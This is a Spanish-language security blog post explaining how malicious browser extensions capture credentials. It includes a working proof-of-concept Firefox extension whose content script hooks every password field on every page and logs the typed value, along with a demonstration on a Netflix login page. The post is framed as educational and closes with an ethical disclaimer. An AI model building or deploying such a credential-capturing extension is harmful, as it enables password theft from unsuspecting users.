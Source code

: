 ![image](https://github.com/user-attachments/assets/0edada83-a193-4a93-9d83-857140cf5291)---
layout: post
title: Extensiones maliciosas capturando credenciales 
category: hacking,extension,web,javascript
permalink: "blog/extensiones-maliciosas"
published: yes
---



# Protegiendo tu navegador: Cómo las extensiones maliciosas pueden comprometer tus credenciales

Las extensiones del navegador, diseñadas para mejorar nuestra experiencia en línea pueden convertirse en una herramienta peligrosa si esta creada para propositos maliciosos.
Pueden usarse por ejemplo para:
* Robo de datos: Pueden capturar información posible sensible como contraseña y datos bancarios
* Seguimiento no autorizado: Rastrean la actividad de navegación del usuario sin su consentimiento
* Inyección de anuncios: Insertan publicidad no deseada en las páginas web visitadas.
* Botnet: Utilizan los recursos del navegador para actividades maliciosas en red

Estas extensiones aprovechan los permisos otorgados por el usuario para acceder a datos sensibles y realizar acciones no autorizadas.

### Prueba de Concepto - Ejemplo

Una prueba de concpeto básica podría involucrar la creación de una extensión para Firefox que observe los campos de contraseña. Un ejemplo simplificado:

1. Crea un nuevo directorio para tu extensión, ejemplo: Observer
2. Crea un archivo `manifest.json`
```js
{
  "manifest_version": 2,
  "name": "Password Observer",
  "version": "1.0",
  "description": "Observa campos de contraseña (solo para fines educativos)",
  "permissions": ["<all_urls>"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"]
    }
  ]
}
```

3. Creamos un archivo `content.js` donde esta la lógica del código

```js
function observePasswords() {
  const passwordFields = document.querySelectorAll('input[type="password"]');
  
  passwordFields.forEach(field => {
    field.addEventListener('change', function(e) {
      console.log('Contraseña capturada:', e.target.value);
      // En un escenario real, aquí se enviarían los datos a un servidor externo
    });
  });
}

observePasswords();

// Observar cambios en el DOM para capturar campos añadidos dinámicamente
const observer = new MutationObserver(mutations => {
  for(let mutation of mutations) {
    if(mutation.type === 'childList') {
      observePasswords();
    }
  }
});

observer.observe(document.body, { childList: true, subtree: true });
```
Este código observa los campos de contraseña en la página y registra sus valores cuando cambian. En un escenario real de ataque, en lugar de usar console.log, se enviarían estos datos a un servidor externo.

> Para usar esta extensión en Firefox:

1. Abre Firefox y ve a about:debugging
2. Haz clic en "Este Firefox"
3. Haz clic en "Cargar complemento temporal..."
4. Selecciona el archivo manifest.json de tu extensión

![image](https://github.com/user-attachments/assets/03de74b1-9d51-49d1-99b1-d2bd8b2eb6cb)

![image](https://github.com/user-attachments/assets/7887e712-4f8a-4780-baa8-99a5672961b4)

Podemos verificar que la extensión esta habilitada , hacemos la prueba en una plataforma muy conocida de Streaming `Netflix` abrimos la consola de desarrollador con F12 e ingresamos cualquier usuario por ejemplo `test@gmail.com` y la contraseña `extension123!` Podemos ver que al momento de introducir la contraseña y enviar la solicitud nos captura la contraseña en el console.log() de la herramienta de desarrollador. Esto es posible sosfiticarla para capturar el email, cookies, password y enviarlo a un servidor remoto.

![image](https://github.com/user-attachments/assets/14d13568-2918-4781-be9d-afa7a1d49b87)


### Aviso

Es crucial enfatizar que el desarrollo o uso de herramientas para capturar credenciales sin autorización es ilegal y éticamente incorrecto. Esta información se proporciona únicamente con fines educativos para comprender mejor las amenazas de seguridad y cómo protegerse contra ellas.

Saludos.



